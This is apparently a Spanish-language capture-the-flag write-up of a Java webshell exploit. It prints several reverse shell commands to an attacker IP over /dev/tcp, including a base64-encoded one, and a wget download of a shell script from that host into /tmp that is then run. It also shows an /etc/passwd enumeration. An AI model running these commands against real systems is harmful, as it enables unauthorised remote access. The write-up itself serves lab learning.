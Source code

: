 ![[Pasted image 20250219194843.png]]

![[Pasted image 20250219200651.png]]

Nos pasamos la rev-shell

Intente algunas [reverse shells ](https://www.youtube.com/watch?v=OjkVep2EIlw) en la webshell, pero ninguna prompea la revshell. No me sorprende, ya que Java es especialmente complicada con los pipes y redirecciones en este tipo de inyecciones.

Probaré una versión codificada en base64."

Esta es una descripción de alguien probando diferentes métodos para obtener acceso a un sistema a través de una shell inversa, donde se enfrenta a dificultades debido a las restricciones del entorno (en este caso, Java).
```bash
~ echo 'bash -i >& /dev/tcp/10.10.14.187/2323 0>&1 ' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODcvMjMyMyAwPiYxIAo=

```

En la web-shell
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODcvMjMyMyAwPiYxIAo= | base64 -d | bash
```

Pero las pipes `|` se ponen junto con el echo 
![[Pasted image 20250219201859.png]]
Pruebo a subir un script de bash
```bash                         
#!/bin/sh

bash -i >& /dev/tcp/10.10.14.187/2323 0>&1 
```

Lo descargo desde la webshell con wget:

```bash
Command: wget http://10.10.14.187:2223/shell.sh -O /tmp/shell.sh
```
![[Pasted image 20250219202933.png]]

Lo ejecuto:

![[Pasted image 20250219203006.png]]



# Privesc

```bash
cat /etc/passwd | grep -E "bash|sh"
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
```
